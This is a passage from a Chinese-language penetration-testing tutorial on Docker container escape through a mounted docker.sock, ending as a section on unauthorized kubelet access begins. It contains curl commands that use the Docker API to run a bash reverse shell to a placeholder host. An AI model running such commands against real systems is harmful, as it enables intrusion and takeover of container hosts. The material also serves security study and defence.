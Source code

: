 就像这样：（图片引用自 freebuf）

[![](assets/1698894613-50869accb2e707f8a2e3a6d88945c2a1.png)](https://storage.tttang.com/media/attachment/2022/03/12/d4fbd137-2fbf-413c-858b-3f2db625760e.png)

#### [直接利用现成的 docker.sock](#toc_dockersock_1)

如果我们入侵了一个 docker 容器，这个 docker 容器里面有 docker.sock(常用路径/var/run/docker.sock)，那么就可以直接利用此文件控制 docker daemon。

把上一小节的命令改改就行，加一个—unix-socket 参数。

```bash
curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'

curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

一般来说 docker.sock 是存在于 docker daemon 服务端的，但如果开发人员想在 docker 容器里运行 docker 命令，就需要把宿主机的 docker.sock 挂载到容器内部了，这就给了我们 docker 逃逸的可乘之机。

### [kubelet 未授权](#toc_kubelet)

kubelet 和 kubectl 的区别？

kubelet 是在 Node 上用于管理本机 Pod 的，kubectl 是用于管理集群的。kubectl 向集群下达指令，Node 上的 kubelet 收到指令后以此来管理本机 Pod。
